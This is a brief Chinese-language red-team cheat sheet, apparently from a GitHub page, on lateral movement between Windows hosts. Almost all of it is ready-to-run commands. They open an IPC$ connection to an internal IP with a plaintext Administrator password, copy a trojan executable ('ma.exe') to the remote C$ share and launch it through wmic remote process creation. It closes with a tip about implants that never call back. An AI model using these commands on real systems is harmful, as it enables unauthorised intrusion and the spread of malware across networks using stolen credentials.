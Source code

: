 ## 0x00 碰见的横向移动方法总结（部分，慢慢更新）

    主机开启139和445端口，IPC移动  
    shell net use \\192.168.10.23\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    
    在本地传个马，copy过去    
    shell copy C:\\Windows\\Temp\\ma.exe \\192.168.10.23\c$\Windows\Temp\ma.exe
      
    wmic远程执行 
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
    
    如果发现很久没有上线，可能目标不出网
 
